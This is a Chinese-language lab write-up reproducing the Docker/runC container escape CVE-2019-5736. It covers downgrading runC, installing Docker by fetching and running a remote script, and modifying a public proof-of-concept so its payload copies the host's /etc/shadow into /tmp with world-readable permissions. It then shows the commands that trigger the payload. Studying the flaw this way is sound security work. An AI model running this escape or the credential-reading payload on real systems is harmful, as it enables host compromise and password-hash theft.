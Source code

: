 # CVE-2019-5736 Docker逃逸 复现

<p align="center">
    <img src="../../../../../assets/img/banner/Docker.png">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- Centos7
- docker : 18.06.0-ce
- runC : 1.0.0-rc6

---

# 安装环境

**漏洞影响版本**
- Docker Version < 18.09.2
- runC Version <= 1.0-rc6

---

**修改 runC 版本**

默认 runC 版本是无法复现该漏洞的,需要手动修改
```bash
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
mv runc.amd64 /usr/bin/runc
chmod +x /usr/bin/runc
runc --version
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/1.png)

**安装 docker**
```bash
yum install epel-release
wget https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/
chmod +x index.html
./index.html
```

使用安装完毕后,可能会自动进入 docker 容器,这里不管,直接重启机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/2.png)

**启动容器**

等待机器重启完毕,这里启动 docker 服务,然后进入 docker 容器
```bash
sudo systemctl start docker
docker run -it ubuntu:18.04 "/bin/bash"
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/3.png)

再启一个 bash,同时这个窗口不要关闭,看一下 docker 容器的 ID
```bash
docker ps
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/4.png)

**下载 payload**

- https://github.com/Frichetten/CVE-2019-5736-PoC

下载的 main.go,修改下 package,改成,payload 也稍微修改
```
package main

var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
```

然后 windows 下需配置编译参数,linux 可直接编译
```
CGO_ENABLED=0;GOOS=linux;GOARCH=amd64
go build main.go
```

把编译出来的二进制文件 main,上传至目标机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/10.png)

**使用 payload**

这里将 main 复制到容器的 /home 目录下,id 值就是之前 docker ps 看到的值
```bash
docker cp main xxxxxxxxx:/home
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/5.png)

回到一开始的窗口,现在进入 home 目录,就可以看到上传上来的 main 文件了,加权限,运行
```bash
cd /home
ls
chmod +x main
./main
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/6.png)

这里再返回到第二个窗口,这个窗口刚上传 main 文件,现在再这个窗口里进入容器,触发 payload,id 值就是之前 docker ps 看到的值
```bash
docker exec -it xxxxxxxxx /bin/sh
exit
cd /tmp/
ls
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/7.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/8.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/9.png)

可以看到，宿主机下 tmp 写了 shadow 文件，payload 成功执行
